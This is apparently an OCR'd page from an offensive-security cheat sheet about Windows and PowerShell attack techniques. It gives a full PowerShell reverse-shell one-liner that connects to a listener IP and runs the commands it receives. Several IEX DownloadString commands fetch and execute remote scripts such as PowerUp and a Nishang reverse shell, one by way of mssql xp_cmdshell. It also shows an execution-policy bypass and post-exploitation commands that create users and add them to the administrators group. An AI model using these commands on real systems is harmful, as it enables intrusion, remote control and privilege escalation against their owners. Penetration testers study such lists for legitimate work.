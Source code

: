 ```systemctl restart open-vm-tools.service```
WordPress
----------------
- https://forum.top-hat-sec.com/index.php?topic=5758.0

Windows Framework / Powershell
----------------
bypass PowerShell execution policy
- Bypassing execution policy and executing a script:
```powershell -ExecutionPolicy ByPass -File script.ps1```

----------------
- https://github.com/samratashok/nishang
- https://github.com/rasta-mouse/Sherlock
- Reverse Powershell: (sometimes powershell or echo may need to be infront of the string and sometimes quotes may be needed, e.g. powershell IEX or powershell "IEX..etc" or echo IEX).
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.1.3.40',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
- If one has a Command Prompt shell, this will grab PowerUp from a local web server and run it on the compromised shell:
```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.10.10:80/PowerUp.ps1') | powershell -noprofile -
```
```
IEX(New-object Net.WebClient).DownloadString('http://10.10.10.10:80/PowerUp.ps1')

```
```
powershell -nop -exec bypass IEX "(New-Object Net.WebClient).DownloadString('http://10.10.14.x/Whatever.ps1'); Invoke-Whatever"
```
- Reverse Powershell using mssql:
```
xp_cmdshell powershell IEX(New-Object Net.WebClient).downloadstring(\"http://10.10.10.10/Nishang-ReverseShell.ps1\")
```
- File transfer with PowerShell:
```
powershell -c IEX(New-Object Net.WebClient).DownloadFile('http://server/path/to/file', 'nameforefile')`
```
Windows Post Exploitation Commands
----------------
- WMIC USERACCOUNT LIST BRIEF
- net user
- net localgroup Users
- net localgroup Administrators
- net user USERNAME NEWPASS /add
- net user "USER NAME" NEWPASS /add
- net localgroup administrators USERNAME /add

Writeable Directories
# Windows
----------------
list from https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md
The following folders are by default writable by normal users (depends on Windows version - This is from W10 1803)
```
C:\Windows\Tasks
